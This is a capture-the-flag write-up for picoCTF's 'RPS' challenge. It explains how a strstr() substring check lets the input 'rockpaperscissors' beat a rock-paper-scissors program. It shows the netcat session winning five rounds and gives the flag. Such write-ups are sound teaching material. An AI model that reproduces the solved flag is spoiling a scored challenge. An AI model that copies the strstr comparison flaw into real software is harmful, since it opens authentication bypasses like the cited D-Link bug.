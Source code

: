 # **Challenge:** RPS


### **Category:** [BinaryExploitation](../)
### **Point Value:** 200
### **Author:** Will Hong
<br>

## **Description:**
Here's a program that plays rock, paper, scissors against you. I hear something good happens if you win 5 times in a row. Connect to the program with netcat: $ nc saturn.picoctf.net 53296 The program's source code with the flag redacted can be downloaded here(https://artifacts.picoctf.net/c/447/game-redacted.c)[^1] [local](./game-redacted.c).


# **Write-Up:**

RPS  Challenge:


Looking at the source we see they use strstr() to do the comparison to decide on a winner.  
  
```c
if (strstr(player_turn, loses[computer_turn])) {
```  

Googling for a vulnerability I came across [this post](https://hackaday.com/tag/strstr/) on hackaday.  The 'juicy' part is right here:  

```
This is where D-Link made a major error. They wanted to allow one specific URL to not require authentication. Seems simple, compare string A to string B and ensure they match. But they used the strstr function. This will return true if string A contains string B. Oops.
```  

So all we need to do to win is send the string 'rockpaperscisors' 5x?  Lets try it out!:


```
└─$ nc saturn.picoctf.net 53296
Welcome challenger to the game of Rock, Paper, Scissors
For anyone that beats me 5 times in a row, I will offer up a flag I found
Are you ready?
Type '1' to play a game
Type '2' to exit the program
1
1


Please make your selection (rock/paper/scissors):
rockpaperscissors
rockpaperscissors
You played: rockpaperscissors
The computer played: rock
You win! Play again?
Type '1' to play a game
Type '2' to exit the program
1
1


Please make your selection (rock/paper/scissors):
rockpaperscissors
rockpaperscissors
You played: rockpaperscissors
The computer played: rock
You win! Play again?
Type '1' to play a game
Type '2' to exit the program
1
1


Please make your selection (rock/paper/scissors):
rockpaperscissors1
rockpaperscissors1
You played: rockpaperscissors1
The computer played: rock
You win! Play again?
Type '1' to play a game
Type '2' to exit the program
1
1


Please make your selection (rock/paper/scissors):
rockpaperscissors
rockpaperscissors
You played: rockpaperscissors
The computer played: rock
You win! Play again?
Type '1' to play a game
Type '2' to exit the program
1
1


Please make your selection (rock/paper/scissors):
rockpaperscissors
rockpaperscissors
You played: rockpaperscissors
The computer played: paper
You win! Play again?
Congrats, here's the flag!
picoCTF{50M3_3X7R3M3_1UCK_8525F21D}
Type '1' to play a game
Type '2' to exit the program
```  

And there you have it, our flag!

# **FLAG:** 
```
picoCTF{50M3_3X7R3M3_1UCK_8525F21D}
```

[^1]: Included links to the source code may be out of date as they were what I recorded during the competition, and may be different now.